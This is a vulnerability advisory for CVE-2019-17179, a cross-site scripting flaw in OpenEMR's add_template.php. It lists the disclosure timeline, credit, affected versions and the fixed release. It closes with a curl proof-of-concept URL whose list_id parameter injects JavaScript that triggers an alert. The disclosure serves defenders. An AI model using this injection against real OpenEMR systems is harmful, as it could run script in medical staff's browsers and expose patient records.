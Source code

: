 # CVE-2019-17179
XSS in `library/custom_template/add_template.php` in
OpenEMR before 5.0.2.1 allows a malicious user to
execute code in the context of a victim's browser via a crafted `list_id` query parameter.

## Timeline
* **Discovered:** October 1, 2019
* **Pull Request Issued:** October 1, 2019
* **Reported:** October 2, 2019
* **OpenEMR merged pull Request:** October 2, 2019
* **CVE ID issued:** October 4,  2019
* **OpenEMR Release:** October 10, 2019 (5.0.2.1)

## Credit
Will Porter, Lodestone Security (https://www.lodestonesecurity.com/)

## Version Details
**Fixed-In Version:** 5.0.2.1

**Affected Versions:**
* 4.1.0
* 4.1.1
* 4.1.2
* 4.1.2.3
* 4.1.2.6
* 4.1.2.7
* 4.2.0
* 4.2.1
* 4.2.2
* 5.0.0
* 5.0.0.5
* 5.0.0.6
* 5.0.1
* 5.0.1.1
* 5.0.1.2
* 5.0.1.3
* 5.0.1.4
* 5.0.1.5
* 5.0.1.6
* 5.0.1.7
* 5.0.2

## References
[Pull Request](https://github.com/openemr/openemr/pull/2701)

## POC Exploit
Assuming OpenEMR is running on `localhost`
```
curl "http://localhost/openemr/library/custom_template/add_template.php?list_id=1}});}}};alert(%27xss%27);function%20derp(){if%20(true){if(true){%20$.ajax({type:%22POST%22,data:{tempateid:%201"
```
